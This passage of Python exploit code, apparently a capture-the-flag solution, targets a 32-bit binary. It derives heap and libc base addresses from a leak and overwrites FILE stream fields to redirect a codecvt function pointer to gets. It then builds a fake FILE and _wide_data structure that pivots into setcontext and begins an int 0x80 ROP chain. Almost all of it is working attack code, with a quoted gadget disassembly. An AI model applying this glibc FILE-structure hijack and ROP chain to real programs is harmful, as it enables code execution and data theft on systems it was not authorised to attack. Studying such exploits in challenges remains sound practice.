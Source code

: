 ```python
            p.close()

    heap_base = u32(leak[0xb4:0xb4+4]) - 0x3f0
    libc_base = u32(leak[0xe4:0xe4+4]) - 0x23d5c0 # _IO_2_1_stdin_
    lg("heap_base", heap_base)
    lg("libc_base", libc_base)

    stream_addr = heap_base + 0x1a0
    gets_addr = libc_base + 0x7d760
    fake_fct_addr = stream_addr + 0x6c + 4 # _unused2+4
    fake_step_addr = fake_fct_addr - 0x14

    # exploit
    edit(2, 8, p16(0x4d70)) # _IO_read_end
    edit(4, 0x6c + 4, p32(gets_addr)) # _unused2 = fake _codecvt->__cd_in.step.__fct
    edit(2, 0xe0, p16(fake_step_addr&0xffff)) # _codecvt->__cd_in.step = fake step
    rewind()

    vtable = libc_base + 0x23c90c
    IO_list_all = libc_base + 0x23dc80
    setcontext = libc_base + 0x00042570 + 53

    payload = b''
    payload += p32(0)*2
    payload += p32(IO_list_all)
    payload += p32(1) # mode
    payload = payload.ljust(0x38, b'\x00')
    payload += p32(vtable-0x1c) # vtable.__seek => vtable->__seekoff
    payload = payload.ljust(0x48, b'\x00')
    # _wide_data
    payload += p32(0)*3 # _IO_read_base/ptr/end
    payload += p32(0) + p32(1) # _IO_write_base/ptr
    payload = payload.ljust(0xd0, b'\x00')
    payload += p32(fake_step_addr + 0xd4 - 0xc) # _wide_data->_wide_vtable
    payload += p32(setcontext) # _wide_data->_wide_vtable->__overflow

    ret = libc_base + 0x425c1
    flag_addr = heap_base + +0x2d4
    int80_gadget = libc_base + 0x0009BDDD
    add_esp_1c = libc_base + 0x000244c0
    '''
   0xe7e0c1ed <__syscall_cancel_arch+13>:	mov    eax,DWORD PTR [esp+0x18]
   0xe7e0c1f1 <__syscall_cancel_arch+17>:	mov    ebx,DWORD PTR [esp+0x1c]
   0xe7e0c1f5 <__syscall_cancel_arch+21>:	mov    ecx,DWORD PTR [esp+0x20]
   0xe7e0c1f9 <__syscall_cancel_arch+25>:	mov    edx,DWORD PTR [esp+0x24]
   0xe7e0c1fd <__syscall_cancel_arch+29>:	mov    esi,DWORD PTR [esp+0x28]
   0xe7e0c201 <__syscall_cancel_arch+33>:	mov    edi,DWORD PTR [esp+0x2c]
   0xe7e0c205 <__syscall_cancel_arch+37>:	mov    ebp,DWORD PTR [esp+0x30]
   0xe7e0c209 <__syscall_cancel_arch+41>:	int    0x80
   0xe7e0c20b <__syscall_cancel_arch+43>:	pop    ebx
   0xe7e0c20c <__syscall_cancel_arch+44>:	pop    esi
   0xe7e0c20d <__syscall_cancel_arch+45>:	pop    edi
   0xe7e0c20e <__syscall_cancel_arch+46>:	pop    ebp
   0xe7e0c20f <__syscall_cancel_arch+47>:	ret
    '''

    def int80(eax, ebx=0, ecx=0, edx=0, edi=0, ebp=0):
        rop = p32(int80_gadget)
        rop += p32(0)*3
        rop += p32(ebp)
        rop += p32(add_esp_1c)
        rop += p32(0)
        rop += p32(eax) + p32(ebx) + p32(ecx) + p32(edx) + p32(ebp)
```